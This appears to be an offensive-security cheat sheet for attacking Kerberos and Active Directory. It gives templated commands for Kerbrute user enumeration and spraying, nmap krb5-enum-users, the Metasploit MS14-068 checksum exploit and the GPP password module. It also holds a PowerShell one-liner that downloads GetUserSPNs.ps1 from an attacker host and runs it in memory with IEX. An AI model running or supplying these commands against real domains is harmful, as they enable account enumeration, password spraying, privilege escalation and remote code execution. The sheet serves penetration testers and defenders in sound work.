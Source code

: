 # kerberos

% kerberos

## Kerbrute usersenum
#platform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
./kerbrute_linux_amd64 userenum -d <domain> --dc <ip> <users_file>
```

## kerberos enum users
#platform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>'" <ip>
```

## kerberos enum users (with user list)
#platform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>
```

## kerberos ms14-068
#platform/linux #target/remote #port/88 #protocol/kerberos #cat/ATTACK/EXPLOIT 
```
msfconsole -x "use auxiliary/admin/kerberos/ms14_068_kerberos_checksum"
```

## exploit gpp - group policy preference (ms14-025)
#platform/linux #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## powershell - get user SPN
#platform/windows #target/remote #port/88 #protocol/kerberos #cat/RECON 

https://github.com/nidem/kerberoast
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/GetUserSPNs.ps1') | IEX
```